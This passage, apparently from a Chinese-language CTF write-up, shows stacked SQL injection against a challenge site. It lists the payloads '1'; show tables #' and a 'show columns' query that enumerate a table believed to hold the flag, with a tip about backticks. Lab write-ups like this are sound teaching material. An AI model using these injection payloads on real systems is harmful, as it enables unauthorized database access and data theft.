 先试一下堆叠注入

```sql
1'; show tables #
```

![20220820232858](assets/20220820232858-1700743077636175.png)

成功执行, 出现了 1919810931114514 这个表, 猜测 flag 应该在这里面

```sql
1'; show columns from `1919810931114514` #
```

这里的数字要加上反引号, 否则 mysql 会报错
